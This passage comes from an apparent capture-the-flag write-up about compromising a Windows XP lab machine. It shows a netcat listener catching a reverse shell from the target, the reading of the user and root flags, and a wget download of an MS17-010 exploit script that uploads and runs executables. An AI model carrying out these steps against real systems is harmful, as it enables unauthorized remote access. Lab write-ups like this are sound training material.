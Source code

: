 As it’s running, I get a callback on my listener:

```

root@kali# nc -lnvp 443
Ncat: Version 7.70 ( https://nmap.org/ncat )
Ncat: Listening on :::443
Ncat: Listening on 0.0.0.0:443
Ncat: Connection from 10.10.10.4.
Ncat: Connection from 10.10.10.4:1028.
Microsoft Windows XP [Version 5.1.2600]
(C) Copyright 1985-2001 Microsoft Corp.

C:\WINDOWS\system32>

```

And from there I can get both flags:

```

C:\Documents and Settings\john\Desktop>type user.txt
e69af0e4...

C:\Documents and Settings\Administrator\Desktop>type root.txt
993442d2...

```

### MS-17-010

#### Locate Exploit

There’s a few GitHubs out there with MS-17-010 code, but not as many that work on XP. My favorite is a fork of [worawit’s MS17-010 repo](https://github.com/worawit/MS17-010) by [helviojunior](https://github.com/helviojunior/MS17-010). He added a `send_and_execute.py`, which I can give an executable and it will upload and run it.

I’ll grab a copy of the script:

```

root@kali# wget https://raw.githubusercontent.com/helviojunior/MS17-010/master/send_and_execute.py
--2019-02-19 14:05:59--  https://raw.githubusercontent.com/helviojunior/MS17-010/master/send_and_execute.py
Resolving raw.githubusercontent.com (raw.githubusercontent.com)... 151.101.248.133
Connecting to raw.githubusercontent.com (raw.githubusercontent.com)|151.101.248.133|:443... connected.
HTTP request sent, awaiting response... 200 OK
Length: 43783 (43K) [text/plain]
Saving to: ‘send_and_execute.py’

send_and_execute.py                                         100%[========================================================================================================================================>]  42.76K  --.-KB/s    in 0.01s   

2019-02-19 14:05:59 (3.19 MB/s) - ‘send_and_execute.py’ saved [43783/43783]

```
